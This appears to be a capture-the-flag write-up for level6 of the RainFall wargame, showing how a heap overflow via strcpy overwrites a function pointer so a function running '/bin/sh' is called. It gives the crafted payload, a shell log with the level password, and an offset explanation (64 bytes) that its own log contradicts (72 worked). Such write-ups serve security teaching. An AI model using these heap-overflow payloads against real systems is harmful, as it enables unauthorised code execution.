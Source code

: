 LEVEL_6:
# 📚 Exploiting `level6` – overwrite the function pointer

## ✅ Step 1: Understand what you need to overflow

You're trying to overwrite the function pointer stored in the second malloc'd block (`heap2`), which is written with:

```asm
mov $0x8048468, %edx     ; address of m()
mov 0x18(%esp), %eax     ; heap2
mov %edx, (%eax)         ; *heap2 = m
```

You control the data written into `heap1` via:

```c
strcpy(heap1, argv[1])
```

So:

* `heap1 = malloc(0x40)`
* `heap2 = malloc(0x4)`
* `*heap2 = &m`
* Then `strcpy(heap1, argv[1])`

That means you need to:

* Write 64 bytes (0x40) to fill `heap1`
* Then **4 more bytes** to overwrite the function pointer in `heap2`

---

## ✅ Step 2: Confirm address of `n()` function

From your GDB output:

```asm
Dump of assembler code for function n:
0x08048454 <+0>: ...
```

So, address of `n()` is:

```
0x08048454
```

---

## ✅ Step 3: Craft the payload

In Python:

```bash
python -c 'print("A"*64 + "\x54\x84\x04\x08")'
```

---

## ✅ Step 4: Run the program with the payload

**Important:** the program is calling `strcpy(argv[1])`, not reading from stdin — so you must pass the payload as an argument:

```bash
level6@RainFall:~$ ./level6 $(python -c 'print("A"*64 + "\x54\x84\x04\x08")')
Nope
level6@RainFall:~$ ./level6 $(python -c 'print("A"*68 + "\x54\x84\x04\x08")')
Segmentation fault (core dumped)
level6@RainFall:~$ ./level6 $(python -c 'print("A"*72 + "\x54\x84\x04\x08")')
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
level6@RainFall:~$ su level7
password: f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
level7@RainFall:~$
```

This should cause:

* input overflows `heap1`
* Overwrites the pointer in `heap2` with `0x08048454` (address of `n`)
* When `main()` executes `call *eax`, it will actually call `n()`, which runs `system("/bin/sh")`

---